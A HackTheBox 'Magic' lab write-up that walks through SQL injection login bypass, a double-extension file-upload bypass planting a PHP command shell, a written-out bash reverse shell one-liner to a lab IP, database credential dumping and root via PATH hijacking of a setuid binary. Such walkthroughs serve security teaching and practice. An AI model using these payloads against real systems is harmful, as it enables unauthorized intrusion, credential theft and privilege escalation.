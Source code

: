 # **HACKTHEBOX – MAGIC WRITEUP**

![](/Magic/logo.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.

![](/Magic/nmap.png)


The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.

![](/Magic/nmap-allports.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.

![](/Magic/homewebsite.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.
![](/Magic/image-on-website.png)


# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](/Magic/login.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](/Magic/gobuster.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](/Magic/sqlinjection.png)

We got logged in!

![](/Magic/upload.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](/Magic/errorupload.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](/Magic/php-reverse-shell-code.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](/Magic/upload-success.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](/Magic/access-thefile.png)

I successfully access the file. Now I will try injecting a command.

![](/Magic/injectcmd.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c &#39;bash -i \&gt;&amp; /dev/tcp/10.10.14.2/9001 0\&gt;&amp;1&#39;

I set up a listener on port 9001, click send and we got a shell as www-data.

![](/Magic/reverseshell.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](/Magic/db-creds.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we access the database and get more stuff.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

Dumping the database &quot;Magic&quot; gives more credentials.

![](/Magic/creds-inside-db.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](/Magic/find-user.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](/Magic/find-group.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](/Magic/strace.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](/Magic/bash-payload.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](/Magic/exploit-path.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](/Magic/root.png)
